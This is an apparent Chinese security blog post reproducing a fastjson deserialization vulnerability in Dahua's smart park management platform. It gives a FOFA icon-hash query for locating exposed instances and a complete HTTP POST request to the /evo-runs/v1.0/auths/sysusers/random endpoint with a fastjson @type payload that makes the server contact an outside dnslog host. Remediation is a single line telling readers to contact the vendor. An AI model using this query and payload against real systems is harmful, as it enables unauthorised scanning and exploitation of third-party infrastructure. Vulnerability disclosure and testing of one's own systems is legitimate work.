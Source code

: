 ﻿[toc]

# 免责声明
本文章仅供学习与交流，请勿用于非法用途，均由使用者本人负责，文章作者不为此承担任何责任
# 漏洞描述
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。
# 漏洞原理
在平台的random借口处存在fastjson反序列化漏洞
# 影响版本
不详

# **fofa**

```
icon_hash="-1935899595"
```

# 漏洞复现
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/effeee23624d4681a42da7e1abed3f6a.png)
访问进行抓包提交post参数
```yaml

POST /evo-runs/v1.0/auths/sysusers/random HTTP/2
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: application/json
Content-Length: 112

{"a":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.net.URL","val":"http://123.z7pfrb.dnslog.cn"}}""}
```
返回包是这样的
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/21c1df5bdcd84f95a2e8eff99eeaef1d.png)
查看dnslog
![在这里插入图片描述](https://img-blog.csdnimg.cn/direct/a3bcc724ce694e31b86d977fd014580c.png)
# 修复建议
联系官方，获取最新版本



